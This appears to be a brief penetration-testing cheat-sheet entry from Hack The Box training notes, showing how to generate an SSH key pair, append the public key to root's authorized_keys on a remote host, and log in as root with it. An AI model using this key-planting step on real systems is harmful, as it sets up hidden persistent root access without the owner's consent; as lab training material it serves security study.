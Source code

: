 # SSH KEYS
```shell-session
gyrsec@htb[/htb]$ ssh-keygen -f key

user@remotehost$ echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys

gyrsec@htb[/htb]$ ssh root@[ip] -i key
```